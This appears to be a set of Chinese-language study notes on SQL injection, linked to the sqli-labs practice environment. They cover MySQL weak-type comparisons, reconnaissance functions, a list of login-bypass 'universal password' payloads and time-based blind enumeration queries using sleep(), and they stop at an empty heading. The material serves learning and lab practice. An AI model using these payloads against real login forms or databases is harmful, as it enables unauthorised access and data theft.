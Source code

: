 ## 练习

[sqllab](https://github.com/Audi-1/sqli-labs/blob/master/readme.md)

## sql 特性

### sql 里面弱类型的比较，以下情况都会为 true：

- 1='1'
- 1='1.0'
- 1='1 后接字母(再后面有数字也可以)'
- 0='除了 非 0 数字 开头 的字符串'

  uname=admin
  &passwd=admin'||'1'='1

## 注入

常用函数：

```
version() 数据库版本
@@datadir 数据库路径
@@version_compile_os
user()
database() 数据库名称
system_user() 系统用户名
current_user() 当前用户名
session_user() 连接数据库的用户名
concat("abc","123")=abc123
concat("abc",0x22,"123")=abc"123
```

### 万能密码

```
'or 1#
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
以不同的用户登陆 ' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--
```

其他待补充
## 手动注入
1. 爆数据库数量
`select count(*)=%d or sleep(2) from information_schema.SCHEMATA`
2. 爆破表数量
`select count(*)=%d or sleep(2) from information_schema.TABLES where TABLE_SCHEMA=%数据库名%`
### bool 型注入
